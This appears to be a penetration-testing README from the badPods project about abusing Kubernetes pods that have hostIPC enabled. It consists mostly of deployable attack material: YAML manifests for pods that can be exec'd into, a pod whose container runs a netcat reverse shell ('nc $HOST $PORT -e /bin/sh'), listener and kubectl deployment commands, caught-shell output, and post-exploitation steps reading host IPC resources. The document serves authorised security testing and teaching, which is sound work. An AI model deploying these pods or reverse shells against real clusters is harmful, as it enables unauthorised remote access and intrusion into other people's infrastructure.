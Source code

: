 ## You can create a pod with only hostIPC

If you only have `hostIPC=true`, you most likely can't do much. What you should do is use the `ipcs` command inside your hostIPC container to see if there are any ipc resources (shared memory segments, message queues, or semaphores). If you find one, you will likely need to create a program that can read them. 

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostipc
  labels:
    app: pentest
spec:
  hostIPC: true
  containers:
  - image: ubuntu
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    name: hostipc
  # Force scheduling of your pod on control plane node by uncommenting this line and changing the name
  #nodeName: k8s-control-plane-node
  ```
[pod-hostipc-only.yaml](pod-hostipc-only.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostipc-only.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostipc-only/pod-hostipc-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostipc-only -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostipc-revshell
  labels:
    app: pentest
spec:
  hostIPC: true
  containers:
  - image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    name: hostipc--revshell
  # Force scheduling of your pod on control plane node by uncommenting this line and changing the name
  #nodeName: k8s-control-plane-node
```
[pod-hostipc-only-revshell.yaml](pod-hostipc-only-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostipc-only/pod-hostipc-only-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation 
#### Look for any use of inter-process communication on the host 
```bash
ipcs -a
```

Reference: https://opensource.com/article/20/1/inter-process-communication-linux



#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.
